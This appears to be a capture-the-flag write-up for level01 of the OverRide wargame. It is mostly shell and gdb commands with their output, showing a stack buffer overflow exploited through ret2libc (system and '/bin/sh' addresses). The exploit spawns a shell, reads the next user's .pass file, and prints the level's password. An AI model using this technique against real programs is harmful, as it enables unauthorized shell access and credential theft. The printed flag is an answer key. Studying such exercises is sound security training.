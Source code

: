 # By doing strings we can find the username

level01@OverRide:~$ strings level01
[...]
dat_wil
[...]

level01@OverRide:~$ ./level01
Enter Username: dat_wil
verifying username....
Enter Password:
admin
nope, incorrect password...

# The overflow occurs at 81 char

(gdb) r < <(python -c 'print "dat_wil"' ; python -c 'print "A"*80+"\xff\xff\xff\xff"')

# We took control of EIP, let's build our shellcode (ret2libc)

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec

(gdb) info func system
0xf7e6aed0  system

level01@OverRide:~$ (python -c 'print "dat_wil"' ; python -c 'print "A"*80+"\xd0\xae\xe6\xf7"+"\xec\x97\xf8\xf7"*2' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
